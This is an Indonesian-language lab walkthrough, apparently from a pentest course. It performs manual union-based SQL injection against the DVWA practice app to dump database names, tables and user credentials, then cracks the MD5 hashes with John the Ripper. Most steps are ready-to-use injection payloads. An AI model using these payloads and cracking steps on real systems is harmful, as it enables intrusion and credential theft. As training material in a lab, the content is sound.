

## LESSON 6

Inti dari Lesson 6 adalah implementasi SQL Injection supaya mendapatkan **Username** dan **Password** yang terdapat dalam **Database**

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Manual SQL Injection**
1. Lakukan **Login** ke dalam **DVWA**. Lalu klik **SQL Injection** dan masukkan angka **1** ke dalam **Text Box** lalu klik **Submit**.


2. Always True Scenario

Masukkan command 

```
%' or 0=0 union select null, version() #
```

Hasil yang akan didapat adalah:


3. Menampilkan versi **Database**

Masukkan command

```
%' or '0'='0
```


4. Menampilkan **User Database**

Masukkan command

```
%' or 0=0 union select null, user() #
```


5. Menampilkan **Nama Database**

Masukkan command

```
%' or 0=0 union select null, database() #
```


6. Menampilkan semua **Table** pada **information_schema**

Masukkan command

```
%' and 1=0 union select null, table_name from information_schema.tables #
```


7. Menampilkan semua **User Table** yang ada di **information_schema**

Masukkan command

```
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
```


8. Menampilkan semua **Column** yang ada di dalam **User Table information_schema**

```
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```


9. Menampilkan semua **Content** dari **Column** yang ada di dalam **User Table information_schema**

```
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```


**B. Membuat Password Hash File**
1. Membuat **file** yang berisi **Username** dan **Password** dari **User** dengan penulisan **Username**:**Password**


2. **Save** dengan nama **dvwa_password.txt** ke dalam **/pentest/passwords/john**


**C. John the Ripper**
1. Masuk ke dalam folder **john**

```
cd /pentest/passwords/john
```

2. Masukkan command

```
./john --format=raw-MD5 dvwa_password.txt
```


### Kesimpulan Lesson 6

Menggunakan **SQL Injection** dapat menemukan **Username** dan **Password** dari **Database**
